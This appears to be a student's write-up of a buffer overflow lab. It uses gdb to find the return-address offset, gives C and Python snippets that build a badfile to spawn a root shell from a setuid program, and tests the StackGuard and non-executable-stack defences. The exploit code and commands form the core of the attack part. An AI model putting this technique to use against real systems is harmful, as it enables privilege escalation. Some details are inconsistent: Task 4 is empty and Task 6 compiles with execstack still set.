


# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```sh
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

## C version
So use the [`exploit.c`](./exploit.c) to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```sh
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.



## Python version

~~There may be something wrong with the Python code both in the textbook and the instruction's template. I believe that the return address should be modified with `ret + offset of the malicious command` instead of just `ret`. And I verified it in our lab.~~

```sh
$ python3 exploit.py
$ ./stack
#
```

Full code available in [`exploit.py`](./exploit.py). Here shows the critical part:

```{.python}
ret = 0xbfffeb08 # replace 0xAABBCCDD with the correct value
offset = 36 # replace 0 with the correct value
# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret + start).to_bytes(4, byteorder='little')
```


# Task 3

- **Without `setuid(0)`**: start a new bash (under user `seed` and start with `$`)
- **With `setuid(0)`**: start a new bash (under user `root` and start with `#`)

Yes, It still works. Because in the additional shell code, the function `setuid(0)` is called to get root priviledge.

# Task 4



# Task 5

## Turn on the StackGuard Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
*** stack smashing detected ***: ./stack terminated
Aborted
```

# Task 6

## Turn on the Non-executable Stack Protection

```sh
$ gcc -o stack -z execstack stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ ./stack
Segmentation fault
```

The buffer overflow does occur. But the non-executable stack protection prevents the crash program from running the shellcode.


